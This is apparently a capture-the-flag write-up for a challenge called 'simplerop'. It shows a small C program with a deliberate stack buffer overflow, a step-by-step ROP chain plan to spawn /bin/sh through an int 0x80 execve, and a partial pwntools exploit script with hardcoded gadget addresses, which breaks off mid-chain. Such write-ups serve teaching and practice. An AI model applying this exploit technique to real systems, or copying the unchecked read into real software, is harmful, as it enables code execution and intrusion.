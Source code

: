 
## 5. simplerop
simplerop.c
```c
#include <stdio.h>

int main(){
	char buf[20];
	puts("ROP is easy is'nt it ?");
	printf("Your input :");
	fflush(stdout);
	read(0,buf,100);
}
```

the binary doesn't use libc, nor does it contain ``system`` function, so we have to use system interrupt (``int80``) to gain access to shell.

since ``.bss section`` is a writeable space, I figured we could store ``/bin/sh`` string

payload structure:

first payload (write /bin/sh to bss):
1. dummy data (24+a bytes)
2. return address of main : read
3. retrun address of read :
4. first arg for read : 0 (stdin)
5. second arg for read : bss
6. third arg for read : 8
7. return address for read : pop edx; pop ecx; pop ebx; ret
8. third arg for execve : 0
9. second arg for execve : 0
10. first arg for execve : * '/bin/sh'
11. return address for pop3ret : pop eax; ret
12. first arg for int80 : 0xb
13. return address for popret : int80

second payload:
1. '/bin/sh\x00'

exp.py
```python
from pwn import *
context.log_level='debug'

binary = ELF('./simplerop')

popret = 0x80481c9
pop2ret = 0x804838d
pop4ret = 0x804838b
pop3ret = 0x804838c
bss = 0x080eaf80
popdcbret = 0x0806e850
popeaxret = 0x080bae06
int80 = 0x80493e1

pl = ''
pl += 'a'*32
pl += p32(binary.symbols['read'])
pl += p32(pop3ret)
pl += p32(0)
pl += p32(bss)
pl += p32(len('/bin/sh\x00'))

pl += p32(popdcbret)
pl += p32(0)
```